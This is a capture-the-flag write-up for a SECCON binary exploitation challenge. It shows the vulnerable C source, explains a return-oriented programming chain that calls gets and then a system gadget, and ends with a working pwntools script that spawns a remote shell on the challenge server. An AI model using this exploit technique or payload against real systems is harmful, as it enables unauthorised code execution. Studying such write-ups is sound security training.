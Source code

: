 # rop-2.35

## Overview

We are given a small Linux binary with no PIE or stack canaries. The
binary calls `system` then calls `gets` on a stack buffer:

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

## Exploit

The crux of the challenge is to control the first argument to a call to
`system`.

When `main()` returns, `rax` contains address of the buffer. There is a
tempting `mov rdi, rax; call system` gadget, but that doesn't work
because when `system` pushes registers onto the stack, that overwrites
whatever command we just read into the buffer.

Running the challenge in gdb, we find that when `main` returns,
`rdi` contains a writeable address inside of libc. We return to `gets`
to write a command into it, then return to the
`mov rdi, rax; call system` gadget we identified. The exploit includes
an extra `ret` gadgets to maintain proper stack alignment.

The exploit prepends a number of slashes to the beginning of the command
beause we observed that something in libc would write 0x2e (.) near the
libc address that we write the command to. Luckily, no null bytes are
written, so our command is preserved.

Exploit:
```python
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
p, u = pack, unpack

r = remote('rop-2-35.seccon.games', 9999)

gets = 0x401060
ret = 0x401110
mov_rdi_rax_call_system = 0x401169

payload = b'A' * 0x18
payload += p64(gets)
payload += p64(ret)
payload += p64(mov_rdi_rax_call_system)
r.sendline(payload)

r.sendline('////////////////////bin/sh')

r.interactive(prompt='')
```

The flag for this challenge references some sort of CSU trick, but we
didn't do anything like that :-)
